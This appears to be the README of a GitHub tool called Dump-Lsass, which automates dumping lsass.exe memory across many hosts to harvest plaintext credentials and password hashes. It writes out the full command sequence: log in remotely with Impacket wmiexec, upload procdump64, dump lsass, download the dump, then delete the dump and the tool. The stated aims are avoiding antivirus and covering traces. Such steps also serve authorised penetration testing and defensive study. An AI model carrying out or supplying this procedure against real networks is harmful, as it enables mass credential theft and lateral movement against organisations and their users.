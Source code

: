 # Dump-Lsass
Automates the manual process of using wmiexec and procdump to dump Lsass and plaintext creds or hashes across a large number of systems.

To dump lsass.exe process memory without triggering antivirus, I would normally use Impacket wmiexec.py and procdump64.exe as follows:

wmiexec.py domain/user@target
put procdump64.exe
procdump64.exe -accepteula -64 -ma lsass.exe lsass.dmp
get lsass.dmp
del lsass.dmp
del procdump64.exe
exit

That's a very manual and time-consuming process when multiplied by many target hosts.
